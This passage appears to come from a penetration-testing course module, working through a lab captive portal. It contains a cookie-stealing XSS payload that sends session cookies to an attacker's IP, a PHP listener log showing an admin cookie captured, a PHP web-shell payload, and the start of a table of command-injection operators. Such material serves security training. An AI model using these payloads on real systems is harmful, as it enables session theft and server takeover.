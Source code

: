 <li>script.js</li>
</ol>
<pre><code class="language-javascript">new Image().src='http://200.200.200.78:9200/index.php?c='+document.cookie
</code></pre>
<p>There are multiple JavaScript payloads we can use for <code>script.js</code> to grab the session cookie and have it sent to us, as shown by <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc">PayloadsAllTheThings</a>:</p>
<p>Subsequently, we should start a PHP web server on our attack host as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo php -S 0.0.0.0:9200
</code></pre>
<p>Finally, we create a new support ticket and submit the following in the message field:</p>
<pre><code class="language-javascript">"&gt;&lt;script src=http://200.200.200.78:9200/script.js&gt;&lt;/script&gt;
</code></pre>
<p>If an admin visits the page, we should receive a callback on our web server containing the admin's session cookie.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo php -S 0.0.0.0:9200

[Sat Mar  8 22:03:35 2025] PHP 8.1.2-1ubuntu2.20 Development Server (http://0.0.0.0:9200) starte
[Sat Mar  8 22:05:28 2025] 200.200.200.1:34898 Accepted
[Sat Mar  8 22:05:28 2025] 200.200.200.1:34898 [200]: GET /index.php?c=session=&lt;SNIP&gt;
</code></pre>
<p>This obtained cookie lets us log in as the admin.</p>
<img class="website-screenshot" data-url="http://captive.htb.local/dashboard.php" src="/storage/modules/299/xss/_005.PNG"/>
<hr/>
<h1>Command Injection</h1>
<p>Command Injection is a vulnerability that allows an attacker to execute arbitrary system commands on a server by injecting malicious input into a vulnerable application. This typically happens when user input is improperly sanitized before being passed to a system shell (bash, cmd, sh, etc.). We can test the support form of the captive portal to check if it is vulnerable to OS Command Injection. To learn more about this attack, refer to the <a href="https://academy.hackthebox.com/module/details/109">Command Injections</a> module.</p>
<hr/>
<h3>Evaluating user input as code</h3>
<p>When a form does not sanitize special characters and instead evaluates user input as code, we might be able to inject malicious PHP. This commonly happens when user submissions are rendered using the eval() function. In this scenario, any input stored in the $post variable is directly evaluated on the page. Since the page is running PHP, we could inject a simple payload to gain command execution on the machine.</p>
<p><code>&lt;?php system($_GET['cmd']); ?&gt;</code></p>
<img class="website-screenshot" data-url="http://captive.htb.local/support.php" src="/storage/modules/299/xss/supportportal6.png"/>
<p>Suppose this input was accepted and no error was thrown. We could potentially visit the url with our ammendment at the end and the specification to execute the whoami command.</p>
<img class="website-screenshot" data-url="http://captive.htb.local/support.php" src="/storage/modules/299/xss/supportportal7.png"/>
<hr/>
<h3>Leveraging Operators</h3>
<p>For instances when user submissions are not directly executed as code, we can still attempt command injection by leveraging various operators. To inject an additional command to the intended one, we may use any of the following operators:</p>
<table>
<thead>
<tr>
<th><strong>Injection Operator</strong></th>
<th><strong>Injection Character</strong></th>
<th><strong>URL-Encoded Character</strong></th>
<th><strong>Executed Command</strong></th>
</tr>
</thead>
<tbody>
<tr>
<td>Semicolon</td>